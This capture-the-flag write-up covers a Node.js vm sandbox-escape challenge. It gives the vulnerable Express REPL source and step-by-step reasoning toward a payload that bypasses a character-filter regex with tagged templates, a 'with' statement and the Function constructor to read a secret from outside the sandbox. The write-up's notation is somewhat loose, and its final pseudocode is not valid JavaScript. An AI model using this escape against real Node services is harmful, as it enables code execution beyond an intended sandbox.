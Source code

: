 ## Owner:

> CaptainFreak

## Challenge Description

```
const express = require("express")
const fs = require("fs")
const vm = require("vm")
const watchdog = require("./watchdog");

global.flag = fs.readFileSync("flag").toString()
const source = fs.readFileSync(__filename).toString()
const help = "There is no help on the way."

const app = express()
const port = 3000

app.use(express.json())
app.use('/', express.static('public'))

app.post('/repl', (req, res) => {
    let sandbox = vm.createContext({par: (v => `(${v})`), source, help})
    let validInput = /^[a-zA-Z0-9 ${}`]+$/g
    
    let command = req.body['cmd']
    
    console.log(`${req.ip}> ${command}`)

    let response;

    try {
        if(validInput.test(command))
        {    
            let watch = watchdog.schedule()
            try {
                response = vm.runInContext(command, sandbox, {
                    timeout: 300,
                    displayErrors: false
                });
            } finally {
                watchdog.stop(watch)
            }
        } else
            throw new Error("Invalid input.")
    } catch(ex)
    {
        response = ex.toString()
    }

    console.log(`${req.ip}< ${response}`)
    res.send(JSON.stringify({"response": response}))
})

console.log(`Listening on :${port}...`)
app.listen(port, '0.0.0.0')
```

#### Solved?

 - No

#### Tried:

Found a way to escape NodeJs vm: https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af. 

Got idea that We can use par.constructor("return flag"). This will eval "return flag" in the context of invoking/parent code as the constructor belongs to that space and will return a function whose body is that string.

So, par.constructor("return flag")() will return flag from parent codes/out of VMs context.

This can be invoked using par.constructor\`return flag\`\`\`

Hence Ended up at payload {"cmd":"par.constructor\`return flag\`\`\`"}. 

Got stuck by one dot. I succesfully used tag notation of function to bypass use of "()" that is prevented by regex check as only speacial chars allowed are alphanumeric, $, {, }, \` 

Could not go further than this. 


#### Solutions:

The challenge was to exlpoit Escame NodeJs vm as well as a regex filter /^[a-zA-Z0-9 ${}\`]+$/g. which disallowes us to use the very useful dot char to access object elements. I tried to find the other way to access properties without using "." but I guess I failed at googling.

Steps to solve the challenge:

1. So we do have a way to access properties without dot.
2. Object.property() in JS is equavalent to with(Object)property()
3. Example: `console.log("flag")` is totally equal to `with(console)log("flag")`
4. But you will say hey we cant use "()" due to regex and this can't even be bypassed using \` as "with" is a JS keyword like "if" and not fucntion :).
5. And then `par` function described in our vm context comes in for the rescue.
6. par(value) function returns "(\`${value}\`)" === (value), where value is executed in it and value is returned with enclosed in "()" which is very convenient for us :).
7. So to make `with(console)log("flag")` out of using "par" we can do "with\`${par\`console\`}log${par\`"flag"\`}\` 

8. Hence, par.constructor("return flag")() is equal to with(par)constructor("return flag")()
9. which is equal to with(par)constructor\`return flag\`\`\` but we need to remove (), we will use par() given
10. Which then can be made \`with${par\`par\`}constructor\`return flag\`\`\`\`
11. Above thing will make it a string which need to be evaled. eval\`\` wont work, will look into this, 
12. Another way to. execute code `Function`.
13. Function(), which interprests last arg as body of function to make
14. Function\`code\` will return a func with with given code body. Function\`code\`\`\` will execute that function.
15. Lets use this, "Function\`a${\`with${par\`constructor\`}return constructor${par\`a\`}\`}\`\`return flag\`\`\`."
And boom !

## TLDR

![](https://i.ibb.co/3MjF0SY/Untitled-Diagram-1.png)

The payload is equivalent to:

```
Function(a, "with(par)return constructor(a)"){
}("return flag")()
```

Really Loved this challenge, Another lesson that in good ctfs, everything is usable.

References:
1. https://twitter.com/po6ix/status/1239169901991849989 - Simpler and crisp.
2. https://st98.github.io/diary/posts/2020-03-15-confidence-2020-ctf.html
This guy even used the help string - Good Read. Kinda overkill.
3. https://twitter.com/po6ix/status/1239167341885149185







